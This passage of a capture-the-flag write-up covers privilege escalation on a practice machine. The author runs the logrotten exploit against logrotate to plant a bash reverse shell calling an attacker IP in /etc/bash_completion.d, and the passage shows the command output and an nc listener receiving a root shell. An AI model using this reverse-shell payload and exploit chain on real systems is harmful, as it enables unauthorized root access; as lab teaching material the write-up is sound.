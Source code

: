I’ll also create a simple bash reverse shell (and test is as reader to make sure it works).

Because I know things are resetting every five seconds, I’ll act quickly, writing the log file and then running the exploit in one line:

```

reader@book:/dev/shm$ echo 0xdf >> /home/reader/backups/access.log; ./logrotten /home/reader/backups/access.log rev_shell.sh 
logfile: /home/reader/backups/access.log
logpath: /home/reader/backups
logpath2: /home/reader/backups2
targetpath: /etc/bash_completion.d/access.log
targetdir: /etc/bash_completion.d
p: access.log
reader@book:/dev/shm$

```

Once it returns, I can see the reverse shell is now in the `bash_completion.d` folder:

```

reader@book:/dev/shm$ ls -l /etc/bash_completion.d/
total 32
-r-xr-xr-x 1 reader reader    55 Feb 28 13:08 access.log
-rw-r--r-- 1 root   root    6636 Nov 20  2017 apport_completion
-rw-r--r-- 1 root   root    3211 Oct  2  2018 cloud-init
-rw-r--r-- 1 root   root     439 Nov 26  2018 git-prompt
-rw-r--r-- 1 root   root   11144 Mar 18  2019 grub

reader@book:/dev/shm$ cat /etc/bash_completion.d/access.log 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.30/443 0>&1 

```

A few seconds later I get a callback on my `nc` listener:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.176.
Ncat: Connection from 10.10.10.176:56192.
root@book:~# id
uid=0(root) gid=0(root) groups=0(root) 

```

The first time I ran this the shell dropped after a few seconds. I had a couple other false starts, but eventually got a shell that was stable. I grabbed `root.txt`:
